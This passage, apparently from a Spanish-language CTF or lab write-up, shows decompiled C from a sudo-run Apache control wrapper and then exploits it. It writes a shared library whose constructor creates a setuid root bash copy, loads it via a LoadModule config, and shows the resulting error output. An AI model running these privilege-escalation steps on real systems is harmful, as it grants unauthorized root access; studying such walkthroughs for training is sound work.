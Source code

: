 ```c
      if (iVar1 == 0) {
        fprintf(stderr,"[!] Blocked: %s is outside of %s\n",local_1018,"/home/mark/confs/");
        uVar2 = 1;
        goto LAB_00101423;
      }
    }
  }
  else {
    iVar1 = strcmp(local_1038,"IncludeOptional");
    if (iVar1 == 0) goto LAB_001013c6;
    iVar1 = strcmp(local_1038,"LoadModule");
    if (iVar1 == 0) goto LAB_001013c6;
  }
  uVar2 = 0;
LAB_00101423:
  if (local_10 != *(long *)(in_FS_OFFSET + 0x28)) {
                    /* WARNING: Subroutine does not return */
    __stack_chk_fail();
  }
  return uVar2;
}
```

Veremos que en el codigo se puede cargar una configuracion, para posteriormente cargar un binario que queremos que se ejecute, por lo que vamos a explotarlo de esta forma:

```shell
cat > /home/mark/confs/pwn.c << 'EOF'
#include <stdlib.h>
#include <stdio.h>
#include <unistd.h>

__attribute__((constructor)) void init() {
    FILE *f = fopen("/tmp/pwned.txt", "w");
    if (f) {
        fprintf(f, "[+] Ejecutado como uid: %d\n", getuid());
        fclose(f);
    }
    system("cp /bin/bash /tmp/rootbash && chmod 4755 /tmp/rootbash 2>/dev/null");
}
EOF

gcc -shared -fPIC -o /home/mark/confs/pwn.so /home/mark/confs/pwn.c
echo 'LoadModule pwn_module /home/mark/confs/pwn.so' > /home/mark/confs/exploit.conf
sudo /usr/local/bin/safeapache2ctl -f /home/mark/confs/exploit.conf
```

Info:

```
apache2: Syntax error on line 1 of /home/mark/confs/exploit.conf: Can't locate API module structure `pwn_module' in file /home/mark/confs/pwn.so: /home/mark/confs/pwn.so: undefined symbol: pwn_module
Action '-f /home/mark/confs/exploit.conf' failed.
The Apache error log may have more information.
```
